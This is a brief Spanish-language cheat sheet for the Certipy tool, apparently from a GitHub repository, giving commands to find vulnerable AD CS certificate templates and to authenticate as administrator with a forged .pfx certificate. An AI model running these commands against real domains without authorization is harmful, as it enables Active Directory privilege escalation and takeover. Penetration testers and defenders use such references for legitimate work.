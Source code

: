 # Certipy Cheat Sheet

#### Conocer el nivel y saber que template es vulnerable
```
certipy find -u <USER>@<DOMAIN> -p '<PASSWORD>' -dc-ip <IP-ADDRESS> -vulnerable -stdout
```

#### Autenticarse usando el TGT creado (administrator.pfx)
```
certipy auth -pfx 'administrator.pfx' -username '<USERNAME>' -domain '<DOMAIN>' -dc-ip <IP-ADDRESS>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)